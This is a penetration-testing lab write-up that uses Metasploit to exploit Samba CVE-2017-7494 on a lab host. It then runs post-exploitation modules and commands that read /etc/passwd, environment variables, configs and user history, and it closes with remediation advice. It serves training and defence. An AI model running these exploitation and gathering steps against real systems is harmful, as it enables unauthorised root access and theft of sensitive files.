# Linux Post-Exploitation Modules

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.30.245.3) — Unix, Samba<br>
**Objective:** Exploit the file-sharing service and profile the host with post-exploitation modules.

## 1. Executive Summary

After exploiting **Samba** (`is_known_pipename`, CVE-2017-7494) for a root shell and
upgrading to Meterpreter, we tour the Linux post-exploitation toolkit: built-in enumeration
commands plus `post/linux/gather/*` and `post/multi/gather/*` modules that collect config
files, environment variables, network details, hardening protections, system info,
container/VM status and user history.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.30.245.3
services
```









```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.30.245.3
run        # root command shell
```



Upgrading to Meterpreter.

```bash
sessions -u 1
```





## 3. Built-in Enumeration

```bash
sysinfo ; getuid
```



```bash
shell
/bin/bash -i
```



```bash
whoami ; cat /etc/passwd
```



```bash
groups <user> ; cat /etc/*issue
```



```bash
uname -r ; uname -a
```



```bash
ip a s ; ps aux
```



```bash
env
```



## 4. Post-Exploitation Modules

```bash
run post/linux/gather/enum_configs       # config files
```



```bash
loot
```



```bash
run post/multi/gather/env                # environment variables
```



```bash
run post/linux/gather/enum_network       # network info
```





```bash
run post/linux/gather/enum_protections   # hardening mechanisms
```



Results are stored in notes.

```bash
notes
```



```bash
run post/linux/gather/enum_system        # system info
```



```bash
run post/linux/gather/checkcontainer     # container detection
```



```bash
run post/linux/gather/checkvm            # VM detection
```



```bash
run post/linux/gather/enum_users_history # shell/user history
```




## 5. Notes & Remediation

1. **Patch Samba** (CVE-2017-7494) to prevent the initial RCE.
2. Post-exploitation enumeration (configs, network, history) accelerates lateral movement —
   **monitor for mass gathering** and protect sensitive config/history files.
3. **Apply least privilege** so a service compromise doesn't immediately yield root.
